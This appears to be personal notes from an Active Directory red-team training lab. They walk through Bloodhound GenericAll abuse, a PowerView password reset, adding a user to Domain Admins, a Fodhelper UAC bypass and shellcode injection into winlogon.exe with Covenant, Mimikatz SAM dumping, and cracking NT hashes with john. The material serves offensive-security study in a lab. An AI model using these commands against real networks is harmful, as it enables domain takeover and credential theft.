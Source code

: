 		- If `s.chisholm` is not yet in the *engineering* group
			- `net group engineering s.chisholm /add /domain`
	- Now add to `IT Admins` group
		- `net group "IT Admins" s.chisholm /add /domain`
- Go to Bloodhound:
	- `Analysis`
		- `Find Shortest Paths to Domain Admins` or `Shortest Path to High Value Targets`
			- Reference `GenericAll` help options
				- `Abuse Info`
- On Windows Host
	- `$SecPassword = ConvertTo-SecureString 'FallOutBoy1!' -AsPlainText -Force`
	- `$Cred = New-Object System.Management.Automation.PSCredential('mayorsec\s.chisholm', $SecPassword)`
	- `$UserPass = ConvertTo-SecureString 'Password123!' -AsPlainText -Force`
	- `Set-DomainUserPassword -Identity j.taylor -AccountPassword $UserPass -Credential $Cred`
		- Note if this fails you need to configure all of the permissions to correlate to the video...
	- `Enter-PSSession -ComputerName dc01 -credential mayorsec\j.taylor`
	- `net group "Domain Admins" j.taylor /add /domain`

### Passing through Remote Desktop
- On `Covenant` obtain a `High` integrity shell
	- Refer too:
		- [[Fodhelper UAC Bypass with Covenant]]
```bash
- **High level privileges**
- Open `Coveneant`
- Start a shell on the Windows host
	- [[Covenant Quick Shell on Windows Host]]
- `powershellimport`
	- `helper.ps1`
- Ensure you using DotNetVersion: `Net35`
	- Copy the encoded payload
- `powershell helper -custom "cmd.exe /c enter_payload_here"`
- Elevate to: **System level privileges**
	- In `Covenant` run:
		- `ps`
		- Find `winlogon.exe` and identify the PID
		- Go to `Launchers`
			- `ShellCode`
				- DotNetVersion: `Net40`
				- `Generate`
				- `Download`
		- `inject`
			- Enter the `winlogon.exe` PID
			- Add the recently generated shellcode *.bin* file
		- `Execute`
```
- `Mimikatz token::elevate lsadump::sam`
- Copy `j.taylor` hashes
![image](https://0xc0rvu5.github.io/docs/assets/images/20221127092647.png)
- Add hashes on desktop
	- `tocrack.txt`
	- `wget https://raw.githubusercontent.com/dievus/ADGenerator/main/coursewordlist `
- `john tocrack.txt --format=nt --wordlist=coursewordlist`
- On Windows *Workstation-01*
	- Search:
		- `Remote Desktop Connection`
			- Computer: `workstation-02`
			- User name: `mayorsec\j.taylor`
	- On Windows *Workstation-02*
		- Search:
			- `Remote Desktop Connection`
				- Computer:  `dc01`